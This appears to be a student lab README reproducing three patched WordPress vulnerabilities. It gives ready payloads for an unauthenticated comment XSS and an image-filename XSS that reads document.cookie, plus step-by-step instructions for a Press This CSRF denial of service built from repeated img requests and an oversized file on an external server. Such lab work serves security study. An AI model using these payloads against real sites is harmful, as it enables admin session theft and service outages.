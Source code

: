 # Week7Alternate
Exploit 1
Unauthenticated Stored Cross-Site Scripting (XSS)
Vulnerable in WordPress 4.2
Fixed in WordPress 4.2.1
Comments can store XSS, which can be activated if the comment is viewed. One could put in an XSS command that would abuse admin abilities to mess with their wordpress site, such as changing their password or deleting certain pages or other information.
Enter the following as a comment:
<a title='x onmouseover=alert(unescape(/hello%20world/.source))
style=position:absolute;left:0;top:0;width:5000px;height:5000px
 AAAAAAAAAAAA [64 kb] ...'></a>
 And then wait for someone to view the comment.
 
 Exploit 2
 Authenticated Stored Cross-Site Scripting via Image Filename
 Vulnerable in multiple versions as early as 2.5 and as far as 4.6
 fixed in Version 4.2.10 for 4.2, one of its latest fixes in 4.6.1
 WordPress basically doesn't do validation on the names of image files uploaded to wordpress. This means an attacker can put in malicious javascript code into wordpress.
 To recreate this exploit, upload a file with the name "cengizhansahinsumofpwn<img src=a onerror=alert(document.cookie)>.jpg" into wordpress. Once the image is viewed in wordpress, the code should execute.
 
 Exploit 3
 Press This CSRF DoS
 Vulnerable in multiple versions of Word Press from 4.2 to 4.7.2
 fixed in Version 4.2.13 for 4.2, latest fix in 4.7.3
 The "Press This" function of Word Press can scan a URL but there's no limit to the maximum amount of data that can be scanned from the link. Basically, taking advantage of this and tricking an admin of a WordPress page to look into it, an admin's WordPress server will be forced to download an almost infinite amount of data, making the server unavailable for a while.
 On another server, create a textfile with the command "perl -e 'print "<>"x28000000' > foo.txt" and another file called "dos.html". In the dos.html file, make sure there are enough entries to fill the WordPress server's connection pool, like:
 <img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
etc. etc., with "external server" being the external server address and "wp server" replaced with the word press server's address.
